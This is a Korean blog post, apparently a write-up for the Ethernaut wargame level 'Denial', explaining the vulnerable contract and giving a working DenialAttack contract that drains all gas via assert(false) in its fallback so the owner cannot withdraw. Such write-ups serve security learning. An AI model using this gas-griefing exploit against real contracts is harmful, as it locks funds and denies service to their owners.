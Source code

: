 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 20) Denial
date: '2022-02-07 12:50:00'
author: 한성원
tags: ethernaut Denial vulnerability 20
categories: 취약점분석
---
```



# 👋 1. Denial
__Difficulty 5/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Owner가 withdraw하지 못하게하면 승리한다.
- Owner 인출불가 상태 만들기

- - -

## 코드 분석
분석은 주석에 있습니다!

```solidity
contract Denial {

    using SafeMath for uint256;
    //  파트너가 되어 자금을 1%씩 인출 할 수 있다.
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    //  Owner의 Address
    address payable public constant owner = address(0xA9E);
    //  마지막으로 withdraw했을때의 시간
    uint timeLastWithdrawn;
    // 파트너별 withdraw한 액수
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    //  누구나 자신 또는 다른 address를 파트너로 설정할 수 있다.
    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    //  withdraw 1% to recipient and 1% to owner
    //  owner와 파트너가 1%씩 인출 할 수 있다.
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        // 작성자의 의도는 call을 사용함으로써 partner가 고의적으로 revert해도 owner가 1%을 받게하기 위함이다.
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        // 마지막으로 withdraw한 시간
        timeLastWithdrawn = now;
        // 파트너가 withdraw한 amount
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    // 모든 입금을 허용한다.
    receive() external payable {}

    // convenience function
    // contract가 가지고 있는 ether의 수를 확인하는 함수
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }

}
```
- - -

## 풀이
### 들어가기 전
이 문제는 call과 transfer의 차이를 잘 알아야 풀 수 있는 문제이다.

#### transfer
- 수신 스마트 계약에는 fallback 함수가 정의되어 있어야 한다. 그렇지 않으면 전송 호출에 오류가 발생한다. `transfer`은 가스 제한량은 2300으로 `transfer`을 완료하기에 한 양이다.

#### send
- `transfer`과 유사한 방식으로 작동하며 가스 제한도 2300이다. 하지만 `transfer`과 다르게 status를 `bool` 값으로 반환한다.

#### call
- smart contract에 ETH를 보내는 권장되는 방법이다. call의 빈 인수는 수신 주소의 fallback 함수를 실행시킨다.

 
    ```solidity
    (bool sent,memory data) = _to.call{value: msg.value}("");
    ```
    `call`을 사용하여 contract에 정의된 다른 기능을 실행시키고 함수를 실행하기 위해 고정된 양의 가스를 보낼 수도 있다. 트랜잭션의 상태가 `bool`값으로 전송되고 return 값이 데이터 변수로 전송된다. 고정된 양의 gas를 보내지 않는다면 사용가능한 모든 gas를 보낸다.

<br/>

우리는 call을 사용해 가져오는 gas 모두 소모해 문제를 해결할 수 있다.
### 풀이
그렇다면 어떻게 모든 gas를 소모할 수 있을까?
gas를 모두 소모할 수 있는 방법이 몇가지 있다.
1. while(true){}
2. assert

* `assert`는 `revert`와 `require`과 다르게 모든 gas를 소모시킨다. 즉 assert가 아닌 다른 것을 사용하여 `revert`하면 gas를 전부 소모시킬 수 업없다.

* 필자는 reentrency를 사용하여 풀려하였지만 reentrency를 사용하였을때 Denial contract에 예기치 못한 ERROR를 만들 수는 있지만 owner에게 ETH가 전송되어 실패하였다. 그래서 가스를 다 소모할 수 있는 다른 방법을 사용하였다.

필자는 2번을 사용하여 문제를 풀었다.

우선 Denial Attack Contract에 fallback을 만들어보자
```solidity
contract DenialAttack {

    Denial denial;
    // 공격할 contract를 Denial contract로 설정
    constructor(address payable _denial) public {
        denial = Denial(_denial);
    }

    // attack을 진행하는 함수
    function attack() public {
        // DenialAttack contract를 파트너로 만들고 withdraw실행
        denial.setWithdrawPartner(address(this));
        denial.withdraw();
    }

    // withdraw이후 ETH가 전송될 때 fallback을 실행시키며 모든 gas소모
    fallback() external payable{
        //방법 1. while(true){}
        //방법 2. assert(false);
        assert(false);
        }

} 
```
<br/>
이 코드를 remix를 통해 Rinkeby network에 deploy한 후 attack()을 실행시켜주면 끝난다.

attack()을 실행시킨 후 transaction이 완료되면 etherscan에서 gas limit을 초과해 에러가 났다고 다음과 같이 나올 것이다.

![gas](./gas_denial.png)

<br/>


에러를 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
역시 ethernaut를 풀면서 solidity에 대해 다시 복습하고 있는것 같다. `send vs transfer vs call`에 대해서도 다시 찾아보며 공부할 수 있었고, assert, revert와 require의 차이점을 공부할 수 있었던 문제였던 것 같다. 

- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org


```toc

```